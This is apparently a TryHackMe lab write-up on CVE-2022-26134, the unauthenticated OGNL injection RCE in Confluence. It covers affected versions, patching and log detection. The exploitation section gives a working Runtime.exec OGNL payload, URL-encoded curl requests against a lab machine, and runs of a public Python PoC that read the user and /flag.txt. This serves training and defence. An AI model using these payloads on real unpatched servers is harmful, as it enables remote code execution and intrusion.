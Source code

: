 #FreeRoom 
https://tryhackme.com/room/cve202226134


On May the 30th, 2022, an organisation named Volexity identified an un-authenticated RCE vulnerability (scoring 9.8 on NIST) within Atlassian's [Confluence Server and Data Center editions](https://www.atlassian.com/software/confluence).

Confluence is a collaborative documentation and project management framework for teams. Confluence helps track project status by offering a centralised workspace for members.

The following versions of Confluence are vulnerable to this CVE:  

- 1.3.0 -> 7.4.17
- 7.13.0 -> 7.13.7
- 7.14.0 -> 7.14.3 
- 7.15.0 -> 7.15.2 
- 7.16.0 -> 7.16.4
- 7.17.0 -> 7.17.4
- 7.18.0 -> 7.18.1 

You can view the NIST entry for CVE-2022-26134 [here](https://nvd.nist.gov/vuln/detail/CVE-2022-26134).

## vuln machine

Now it is time to practice this vulnerability! Deploy the machine attached to this task, and craft different payloads to answer the questions below.

Note: Please wait for a **minimum of seven minutes** for this machine to start up **before attacking**. You can verify the machine is ready for attack once the login page on the following URL loads: [HTTP://MACHINE_IP:8090](http://machine_ip:8090/). In the meanwhile, proceed with the rest of the tasks.

## explaining the vulnerability

This CVE uses a vulnerability within the OGNL (Object-Graph Navigation Language) expression language for Java (surprise, surprise ... it's Java). OGNL is used for getting and setting properties of Java objects, amongst many other things.

For example, OGNL is used to bind front-end elements such as text boxes to back-end objects and can be used in Java-based web applications such as Confluence. We can see how OGNL is used in the screenshot below. Values are input to a web form, where these values will be stored into objects within the application:

## exploit detection and patching

Patching

Atlassian has released an advisory for their products affected by this CVE, which you can read [here](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html). To resolve the issue, you need to upgrade your Confluence version. The suggested list at the time of publication is:  

- 7.4.17
- 7.13.7
- 7.14.3
- 7.15.2
- 7.16.4
- 7.17.4
- 7.18.1

Detection - Log Files

Confluence is an Apache Tomcat server which has logging located in `/opt/atlassian/confluence/logs`. You can use commands like grep to search for HTTP GET requests of payloads that are using Java runtime to execute commands. For example:

- `grep -R "/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22"` in **catalina.out**

Detection - YARA

If you have Yara installed on the server running Confluence, Volexity (the finders of the vulnerability) has created the following Yara rule for you to use, located [here](https://github.com/volexity/threat-intel/blob/main/2022/2022-06-02%20Active%20Exploitation%20Of%20Confluence%200-day/indicators/yara.yar)

Unfamiliar with Yara? Check out our Yara room [here](https://tryhackme.com/room/yara).

## exploitation

We can abuse the fact that OGNL can be modified; we can create a payload to test and check for exploits.

In order to exploit this vulnerability within OGNL, we need to make an HTTP GET request and place our payload within the URI. For example, we can instruct the Java runtime to execute a command such as creating a file on the server:   

```
${@java.lang.Runtime@getRuntime().exec("touch /tmp/thm/")}/
```

This will need to be URL encoded, like the following snippet below. You can use [this](https://www.urlencoder.org/) website to help URL encode your payloads (**note** that your `curl` payload will need to end in a trailing `/` and not `$2F`):

```shell
curl -v http://10.10.224.77:8090/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22touch%20/tmp/thm%22%29%7D/


curl%20-v%20http%3A%2F%2F10.10.224.77%3A8090%2F%2524%257B%2540java.lang.Runtime%2540getRuntime%2528%2529.exec%2528%2522touch%2520%2Ftmp%2Fthm%2522%2529%257D%2F
```

When looking at the server, we can see that it is vulnerable:
```
ls /tmp
hsperfdata_confluence 
thm 
snap.lxd
```

Python

There are a few working PoC exploits out there. For this room, I will be demonstrating Samy Younsi (Mwqda)'s PoC written in Python and hosted on [GitHub](https://web.archive.org/web/20220713085425/https://github.com/Nwqda/CVE-2022-26134).

```
First, we need to download the PoC to our host. The PoC has been attached as a zip to this task. If you are using the THM AttackBox, you can find the PoC in /root/Rooms/CVE2022-26134

After navigating to the source code, let's execute the script. Replace "COMMAND" with the command you wish to execute (Remember to use quotation marks when running commands that have special characters and such.)

python3.9 cve-2022-26134.py HTTP://10.10.168.154:8090 "whoami"
```


Download the proof of concept for this task! If you are using the AttackBox, this is already done for you, where it can be found in `/root/Rooms/CVE2022-26134 `

Ensure the login panel on [HTTP://10.10.168.154:8090] loads before proceeding.

```
Craft a payload to identify what user the application is running as. What is the user?

python3.9 cve-2022-26134.py HTTP://10.10.168.154:8090 "whoami"
confluence 


(If your command has spaces, either URL encode it, or use quotes around it.)
Finally, craft a payload to retrieve the flag stored at  /flag.txt on 10.10.168.154. What is the flag?


python3.9 cve-2022-26134.py HTTP://10.10.168.154:8090 "cat /flag.txt"

THM{OGNL_VULN}
```



## conclusion

Nice work!

Hope you enjoyed this brief showcase of the **CVE-2022-26134** OGNL Injection vulnerability. Remember, OGNL is an expression language for Java-based web applications, so this vulnerability will also apply to other web apps running the same classes that Confluence uses!

Additional Reading Material:

- [NIST National Vulnerability Database Entry (CVE-2022-26134)](https://nvd.nist.gov/vuln/detail/CVE-2022-26134)
- [Hunting for Confluence RCE [CVE-2022–26134]](https://medium.com/@th3b3ginn3r/hunting-for-cve-2022-26134-confluence-rce-on-linux-server-ae9ce0176b4a)
- [Exploring and remediating the Confluence RCE](https://www.datadoghq.com/blog/confluence-vulnerability-overview-and-remediation/)
- [What is OGNL Injection?](https://www.contrastsecurity.com/glossary/ognl-injection-ognl)
- [Citrix: Guidance for reducing unauthenticated OGNL injection RCE](https://www.citrix.com/blogs/2022/06/09/reducing-unauthenticated-ognl-injection-security-vulnerability-risk-cve-2022-26134/)
- [Exploring OGNL Injection in Apache Struts](https://pentest-tools.com/blog/exploiting-ognl-injection-in-apache-struts)
- 

40 points




